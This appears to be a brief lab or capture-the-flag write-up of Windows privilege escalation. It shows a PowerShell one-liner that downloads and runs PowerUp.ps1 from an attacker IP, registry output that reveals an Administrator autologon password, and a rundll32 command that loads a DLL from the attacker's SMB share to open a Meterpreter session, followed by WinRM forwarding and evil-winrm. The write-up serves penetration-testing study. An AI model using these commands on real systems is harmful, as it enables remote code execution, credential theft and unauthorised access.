

# 30 - PrivEsc 

```powershell
PS C:\inetpub\wwwroot\internal-01\log> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.12/PowerUp.ps1')
PS C:\inetpub\wwwroot\internal-01\log> Get-RegistryAutoLogon


DefaultDomainName    : DESKTOP-7I3S68E
DefaultUserName      : Administrator
DefaultPassword      : 3130438f31186fbaf962f407711faddb
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   : 

PS C:\inetpub\wwwroot\internal-01\log> 
```


# Metasploit


# Smb_delivery options


# Run



# Execute this line of code on the box to connect to meterpreter listener
```powershell
PS C:\inetpub\wwwroot\internal-01\log> rundll32.exe \\10.10.14.12\hGRxjw\test.dll,0
```

# Powershell is connected


# Go back to the meterpreter session for port forwarding.


# Forward 5985 Windows Remote Management


# Run evil-winrm and get  a shell

